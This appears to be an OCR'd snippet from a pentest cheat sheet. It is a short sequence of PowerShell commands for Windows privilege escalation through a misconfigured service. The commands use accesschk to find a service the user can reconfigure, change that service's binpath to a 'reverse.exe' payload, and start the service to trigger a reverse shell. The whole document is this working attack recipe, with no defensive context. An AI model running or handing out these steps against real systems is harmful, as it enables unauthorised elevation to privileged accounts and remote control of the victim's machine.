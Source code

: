 ```powershell
.\accesschk.exe /accepteula -uwcqv user $SERVICE_NAME # Find SERVICE_CHANGE_CONFIG for user
```

```powershell
sc qc $SERVICE_NAME # Query the service and note that it runs with which privileges (SERVICE_START_NAME)
```

```powershell
sc config $SERVICE_NAME binpath= "\"C:\Path\To\reverse.exe\"" # Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable created
```

```powershell
net start $SERVICE_NAME # After that the listenner is running
```

